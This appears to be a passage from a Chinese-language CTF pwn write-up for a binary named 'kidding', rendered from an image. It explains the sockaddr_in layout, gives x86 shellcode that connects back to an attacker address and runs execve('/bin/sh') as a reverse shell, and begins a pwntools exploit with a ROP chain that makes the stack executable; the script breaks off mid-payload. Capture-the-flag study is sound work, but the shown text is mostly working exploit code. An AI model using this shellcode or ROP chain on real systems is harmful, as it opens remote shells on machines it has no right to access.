 我们使用Ipv4通信，因此sin_family的值为 AF_INET，2两字节。

sin_port这个参数其是按照大段字节序储存，即高位地址在低位，两个字节。

sin_addr为4个字节的ip地址，小段储存。

```python
#2.3.connect(0,addr,addrlen)
    shellcode+="mov al,0x66;push ebp;push ax;push si;mov ecx,esp;"+\
            "push cs;push ecx;push ebx;mov ecx,esp;mov bl,3;int 0x80;"
```

**获得shell**

获得shell就不多做解释了

```python
#2.4.excv("/bin/sh",0,0)
    shellcode+="mov dl,al;pop ecx;mov al,0xb;push 0x68732f;push 0x6e69622f;mov ebx,esp;int 0x80;"
```

**exp**

```python
from pwn import *

s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()

if args['REMOTE']:
    sh=remote()
else:
    sh=process('./kidding')

if args['I386']:
    context.arch='i386'
else:
    context.arch='amd64'

if args['DEBUG']:
    context.log_level='debug'

def debug(command=''):
    context.terminal = ['tmux', 'splitw', '-v']
    gdb.attach(sh,command)

def exp():
    #debug("b*0x080b8546 \nc")
    ip=u32(binary_ip('172.26.172.251'))
    port=26112
    #1.stack executable
    peax_ret=0x080b8536
    pecx_ret=0x080583c9
    p_ecx_ret=0x0804b5eb
    push_esp_ret=0x080b8546
    libc_stack_end=0x080E9FC8
    stack_prot=0x080E9FEC
    dl_make_stack_executable=0x0809A080
    payload=b'a'*8+p32(ip)
    payload+=p32(pecx_ret)+p32(stack_prot)+\
             p32(p_ecx_ret)+p32(7)+\
```